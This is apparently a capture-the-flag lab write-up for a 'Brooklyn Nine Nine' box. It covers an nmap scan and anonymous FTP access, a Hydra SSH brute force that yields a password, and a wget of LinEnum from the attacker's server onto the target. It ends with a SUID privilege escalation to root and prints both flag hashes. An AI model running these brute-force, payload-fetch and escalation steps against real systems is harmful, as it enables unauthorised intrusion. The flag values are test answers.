 

Start off with nmap default scripts (-sC), show versions (-sV) and output all formats (-oA).
`sudo nmap -sC -sV -oA nmap 10.10.136.175`

![Alt text](./attachments/Pasted_image_20231123102936.png)
We have 3 ports
21: FTP server
22: SSH server
80: HTTP 

There is a file with a note for 'jake' on the FTP server and I can login anonymously. When prompted with a username, I can put 'anonymous' and leave the password empty when prompted (just press enter). 
After login, I can see there is a file there and can use the 'less' command to show the content of the text file: 
![Alt text](./attachments/Pasted_image_20231123103006.png)

I know now that user 'jake' has a weak password and that there are 3 users in total:
- jake
- amy
- holt
As seen in amy's message, it looks like the user holt is some sort of admin. 

After, I visited the webpage, where there is an image of Brooklyn nine nine, a television show. I googled the main character, who is called 'jake'. If I would not have found the note, I would have tried to use the username jake as well, but we know with the message on the FTP server we definitely have something here. We also find a note on the FTP server being stored there for Jake.

Now that we know the usernames, I can try to use Hydra to brute force into the SSH server. As only jake has a weak password, I will only try to brute force his credentials.

`hydra -l jake -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt 10.10.136.175 -t 4 ssh`

In the meantime, I also kick off a gobuster to see if we can find any other directories in the meantime.
`gobuster dir -u http://10.10.136.175 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

The gobuster didn't result into anything, but Hydra did find a password for the user jake:
![Alt text](./attachments/Pasted_image_20231123103050.png)

I can now login to the SSH server with: 
Username: jake
Password: 987654321
`ssh jake@10.10.136.175`

We are now logged into the SSH server!
![Alt text](./attachments/Pasted_image_20231123103106.png)

I can now try to move to other folders. When I move up to the home directory, the folders for amy and holt are there. If we look into holt's directory and list all files, we find 
## Flag 1 user.txt: ee11cbb19052e40b07aac0ca060c23ee
![Alt text](./attachments/Pasted_image_20231123103128.png)

Now I need to escalate my privileges to find the root.txt flag.
I will start getting the LinEnum package onto the SSH server. The script I used [can be found here](https://github.com/rebootuser/LinEnum.git)
Next, I setup a local webserver from where I can grab the script from within the SSH server. First move back to jake's folder, as we don't have permissions in holt's folder.
On my local terminal: `python3 -m http.server`
On the SSH server: `wget 10.10.137.228:8000/LinEnum.sh`
I now have the file, but need to make it executable first with the following command:
`chmod +x LinEnum.sh`

All steps are in the following image:
![Alt text](./attachments/Pasted_image_20231123103141.png)

Now I can run the LinEnum script with:
`./LinEnum.sh`

After the enumeration, I can see that there is an interesting SUID file
![Alt text](./attachments/Pasted_image_20231123103201.png)

Looking at [GTFO bins](https://gtfobins.github.io/), there is an exploit I can try to run to get sudo privileges:
![Alt text](./attachments/Pasted_image_20231123103212.png)

After running the command, **we get root access**. To now stabelize the shell and to have autocomplete, I used the following command:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

After this, I was able to access the root directory and find the second and last flag:
### **root.txt: 63a9f0ea7bb98050796b649e85481845**
![Alt text](./attachments/Pasted_image_20231123103222.png)

Thanks for reading!

